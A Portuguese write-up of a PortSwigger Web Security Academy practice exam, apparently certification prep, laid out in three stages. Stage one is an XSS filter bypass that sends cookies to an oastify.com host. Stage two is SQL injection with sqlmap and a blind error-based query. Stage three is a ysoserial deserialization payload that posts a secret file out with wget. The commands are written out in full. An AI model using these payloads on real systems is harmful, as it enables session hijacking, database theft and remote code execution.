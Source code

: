 # Exame Prático 2

O segundo simulado é bem parecido com o primeiro, mudando apenas a dificuldade principalmente da primeira etapa.

<br>

## Etapa 1 - Acesso Inicial

O parâmetro de busca está vulnerável a XSS, assim como no exame prático 1. Porém, a maioria dos payloads são considerados perigosos e bloqueados.

Ao fazer alguns testes, você perceberá que o parênteses está sendo considerado como malicioso.

Para bypassar, podemos usar:
```
"-alert``}//

"-alert`${document.cookie}`}//
```

<br>

Para exfiltrar o cookie:
```
"-alert`${document.location='https://gi2vck1wpz14bg1t9xx9b52prgx7l19q.oastify.com?c='+document.cookie}`}//
```

Encodado em URL:
```
%22%2d%61%6c%65%72%74%60%24%7b%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%67%69%32%76%63%6b%31%77%70%7a%31%34%62%67%31%74%39%78%78%39%62%35%32%70%72%67%78%37%6c%31%39%71%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%3f%63%3d%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%7d%60%7d%2f%2f
```

<br>

Vi em algum Write-up que também poderiamos usar:
```
"};location=atob("base64('https://BURP-COLLAB-URL/?')")+document["cookie"]; //
```

<br>

## Etapa 2 - Escalação de Privilégios

Ao colocar uma aspa no parâmetro `order`, um error de SQL é retornado.

Podemos usar o SQLMap copiando a request utilizando a tab **Network** do navegador e clicando em `copy as cURL`.
```
sqlmap -u 'https://0aa0007b03f1a870832b554a00e20072.web-security-academy.net/filtered_search?find=Search&organize=5&order=ASC&BlogArtist=' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br, zstd' -H 'Connection: keep-alive' -H 'Referer: https://0aa0007b03f1a870832b554a00e20072.web-security-academy.net/filtered_search?find=Search&organize=5&order=ASC&BlogArtist=' -H 'Cookie: session=35F8LKiY7IBgeIAGXbUGDrUO4y8z5oEB; _lab=46%7cMCwCFCX410y74Ayq9D6pDa3x9Kusn%2f1vAhQrMssZ5xAmYYV574MeJcqdw3IFv6UzKaI4RJYcdV6H9H0eJ4T3JwbWof%2fnQrDmVH0Ut9T5jqT71Gm4MaUwhOcruMx2WqKd3SDqLwagQu33MbKooKat5LJik3kAJ89XqqircOG0lwNs1uk%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -H 'Priority: u=0, i' -H 'TE: trailers' \
--technique E --dbms postgresql --level 5 --batch --flush-session -p 'order' -D public -T users --dump
```

<br>

A exploração manual seria assim:
```
LIMIT (SELECT CASE WHEN (substr(password,INDEX,1)='CHARACTER') THEN 1/(SELECT 0) ELSE 1 END FROM users WHERE username='administrator')
```

## Etapa 3 - Exfiltração de Dados

Utilize a extensão Java Deserialization Scanner para identificar o cookie vulnerável e o seguinte comando para gerar o payload:
```
java -jar ysoserial-all.jar CommonsCollections4 'wget http://0jkfd42gqj2oc02dahytcp39s0yrmnac.oastify.com --post-file=/home/carlos/secret' | gzip -f | base64 -w 0
```

Lembre de encodar em URL!
